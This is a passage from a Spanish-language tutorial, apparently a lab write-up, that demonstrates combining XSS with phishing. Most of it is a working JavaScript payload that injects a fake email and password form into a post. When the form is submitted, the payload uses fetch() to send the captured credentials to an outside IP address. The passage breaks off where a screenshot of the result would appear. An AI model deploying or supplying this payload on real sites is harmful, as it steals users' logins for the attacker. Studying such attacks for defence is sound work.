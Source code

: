 ![Montage finalizado con exito](/assets/imgs/cap_xss_9.png)

Este es un ejemplo muy simple de lo que se puede lograr con XSS<br>


## Ejemplo de Phishing Basico + XSS (correo y contraseña)

usar ventanas emergentes nos limita mucho a la hora de intentar interceptar credenciales, ya que deberian salir dos, una por cada parametro.<br>
Esto se puede solucionar usando otro payload mucho mas trabajado para crear un formulario dentro del mismo post


```js
<div id ="formContainer"></div>
<script>
var email;
var password;
var form = '<form>' +
    'Email:<input type="email" id="email" required>' + 
    'Contraseña:<input type="password" id="password" required>' + 
    '<input type="button" onclick="submitForm()" value="Submit">' +
    '</form>';

document.getElementById("formContainer").innerHTML = form;

function submitForm(){
  email = document.getElementById("email").value;
  password = document.getElementById("password").value;
  fetch("http://192.168.101.77/?email=" + email + "&password="+ password);
}
</script>
```

Este payload una vez enviado se veria algo asi:
